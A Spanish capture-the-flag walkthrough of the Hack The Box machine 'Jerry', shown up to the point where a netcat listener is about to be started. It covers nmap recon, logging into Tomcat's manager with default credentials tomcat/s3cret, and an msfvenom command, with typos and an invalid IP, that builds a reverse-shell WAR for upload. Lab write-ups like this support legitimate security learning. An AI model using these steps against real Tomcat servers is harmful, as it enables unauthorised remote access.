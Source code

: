 ![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función [`mkt`](../Herramientas_y_Scripts/mkt.html) que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Port tanto vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizare un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
De esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 esta abierto, vamos a realizar un segundo escaneo especificando
que quereros utilzar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto lo siguiente que
probaremos sera especificar el puerto en el que corre el servicio, por tanto intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseeguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra una credenciales que se han utilizado para motrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y utilizando la contaseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir arhcivos, así que vamos a tratar de buscar alguna herramienta que nos perminta crear una
shell inversa desde la cual poder interactuar con la máquina.

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamoa a utilizar  la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificandole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

    msfvenom -p- java/sjp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina victima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shel.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerno en escucha por el puerto `8080` mediante `nc`:











